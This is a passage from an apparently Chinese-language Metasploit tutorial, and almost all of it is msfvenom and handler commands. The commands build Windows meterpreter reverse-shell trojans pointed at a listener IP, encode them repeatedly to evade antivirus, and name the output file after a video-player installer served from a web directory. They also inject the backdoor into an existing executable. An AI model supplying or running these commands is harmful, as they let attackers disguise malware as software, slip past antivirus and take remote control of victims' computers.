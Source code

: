    ```shell
    # 使用一个编码器
    msfvenom # 工具
    	-a x86 # 指定架构
    	--platform windows # 指定平台
    	-p windows/meterpreter/reverse_tcp LHOST=192.168.18.143 LPORT=444 # 指定攻击载荷
    	-b "\x00" # 去掉坏字符坏字符会影响 payload  执行
    	-e x86/shikata_ga_nai # 指定编码器，面杀
    	-i 10 # 指定编码次数
    	-f exe # 指定输出文件格式
    	-o /ver/www/html/西瓜影音1.exe  # 文件输出位置
    	
    # 使用两个编码器
    msfvenom # 工具
    	-a x86 # 指定架构
    	--platform windows # 指定平台
    	-p windows/meterpreter/reverse_tcp LHOST=192.168.18.143 LPORT=444 # 指定攻击载荷
    	-b "\x00" # 去掉坏字符
    	-e x86/shikata_ga_nai   # 指定编码器，面杀
    	-i 20 # 指定编码次数
    	| # 连接符
    	msfvenom -a x86 --platform windows -e x86/alpha_upper -i 10 # 第二个编码器
    	-f exe # 指定输出文件格式
    	-o /ver/www/html/西瓜影音1.exe  # 文件输出位置
    ```
4.  使用 MSF 监听

    ```shell
    use exploit/multi/handler  # 设置模块
    	set payload windows/meterpreter/reverse_tcp # 设置 payload
    	set lhost 192.168.18.143  # 与生成木马的地址一样
    	run  # 执行
    		# 查看获取的权限，进行提权
    ```
5.  模拟黑客给软件加后门： 在 .exe 文件中注入后门。 注入思路： 先看主程序附加了那些小程序，在小程序上面进行添加 payload

    ```shell
    # 使用 kaill 工具给附加小程序添加 payload  
    msfvenom # 工具
    	-a x86 # 指定架构
    	--platform windows # 指定平台
    	-p windows/meterpreter/reverse_tcp LHOST=192.168.18.143 LPORT=444 # 指定攻击载荷
    	-b "\x00" # 去掉坏字符坏字符会影响 payload  执行
    	-e x86/shikata_ga_nai # 指定编码器，面杀
    	-i 10 # 指定编码次数
    	-x  1.exe  # 要植入后门的文件
    	-f exe # 指定输出文件格式
    	-o /ver/www/html/1.exe  # 文件输出位置
    ```
6.  使用 evasion 模块生成免杀木马：
